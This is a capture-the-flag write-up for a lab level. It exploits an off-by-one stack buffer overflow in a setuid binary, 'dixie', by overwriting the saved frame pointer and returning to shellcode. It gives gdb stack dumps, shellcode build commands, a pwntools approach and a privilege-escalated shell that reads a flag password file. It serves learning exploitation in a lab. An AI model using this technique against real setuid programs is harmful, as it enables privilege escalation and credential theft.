


# Level 02

3309s5bx9kagi0z0qt0erxvivievlh86

## Description

```
ls -l
total 28
-rwsr-x--- 1 flag02  level02 16512 Jun  9 23:13 dixie
-r--r--r-- 1 level02 level02  2512 Jun  9 23:13 dixie.c
-r--r--r-- 1 level02 level02    47 Jun  9 23:13 README
```
- dixie has the `SUID` capacity.

## dixie.c

### store_record function

The only `read()` from this program comes from the function `store_record()`.

```
#define BUF_SIZE 64
...
char buf[BUF_SIZE];
...
in_len = 0;
while (in_len <= BUF_SIZE) {
    in_ch = read(0, &buf[in_len], 1);
    if (in_ch <= 0)
        break;
    in_len++;
}
```

It reads up to 65 characters in a 64 bytes local buffer.

Let's inspect stack on gdb after injecting a 72 bytes pattern of `'a'` :
```
(gdb) i f
Stack level 0, frame at 0x7fffffffe260:
 rip = 0x40147f in store_record; saved rip = 0x401575
 called by frame at 0x7fffffffe271
 Arglist at 0x7fffffffe250, args: 
 Locals at 0x7fffffffe250, Previous frame's sp is 0x7fffffffe260
 Saved registers:
  rbp at 0x7fffffffe250, rip at 0x7fffffffe258

(gdb) x/80bx 0x7fffffffe250 - 0x40

0x7fffffffe210:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x7fffffffe218:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x7fffffffe220:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x7fffffffe228:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x7fffffffe230:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x7fffffffe238:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x7fffffffe240:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x7fffffffe248:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x7fffffffe250:	0x61	0xe2	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe258:	0x75	0x15	0x40	0x00	0x00	0x00	0x00	0x00
````

The 1-byte buffer overun allows to erase the less signifiant byte of the saved $rbp value from previous frame.

It means, that it's possible to replace the parent frame address with another one.

As the buffer itself it stored on the stack, we could overwrite the saved parent's frame address with the start of the buffer itself, in which we could fake another parent frame whose return address could points toward a custom shellcode.

## The exploit

We'll recreate a fake frame that, when returning from `store_record` function, the program will take for the main frame. This fake frame is precedeed with a return address pointing to the shellcode.

It means that the shellcode will be executed when returning from main.

### Shellcode in the new stack frame (injected via the payload)

If we reuse the 39-bytes long shellcode from [ex00](../ex00/sol2-fix), we'll have enough space to fit the shellcode in the new frame.



However there is an issue with doing this, caused by the fact that, when returning from `store_record` to our fake frame, rsp will be pointing toward the end of the original main frame.



After returning from `store_record` **rsp will be above rbp**, meaning everything from our stack frame may be overriden by next function called from main.

And in this case, the program will call the `dump_record()` function.

This method can be tested via the `exploit-in-payload.py` script (it does not work because shellcode get overriden by the `dump_record()` function).

Generate shellcode.bin first:
```
nasm -f elf64 payload.asm -o shellcode.o && ld -m elf_x86_64 shellcode.o -o shellcode && rm shellcode.o
objcopy -O binary -j .text shellcode shellcode.bin && rm shellcode
```

This exploit attempt uses this exec wrapper (making sure the original `store_record` frame address modulo 256 is exploitable):
```
(gdb) set exec-wrapper env -i A="B" ./dixie
```

#### Shellcode in an environment variable

Let's replicate the method from ex00 of storing the payload directly inside an environment variable.

This time, as we are using `pwntools` to make the exploit, and it generates the shellcode by itself.

The pwntools script will automatically copy and compile the `getenv_addr.c` program to resolve the address of the `$SHELLCODE` environment variable. It uses an environment only containing `$SHELLCODE` variable.

```
python3 exploit-in-env.py
```

Still we need to resolve the `store_record` stack frame address to find the proper value for the byte triggering the overflow. We can do this by running gdb with the exact same environment than the `getenv_addr` program.

```
(gdb) set exec-wrapper env -i SHELLCODE=$(cat shellcode.bin)
b store_record
r
i r $rbp
```
Output:
```
0x7fffffffec60
```

Then when running the script :
```
$ whoami
flag02
$ cat /home/flag02/.pass
qeplvibynup98phqb312dkvhtpdkklac
```
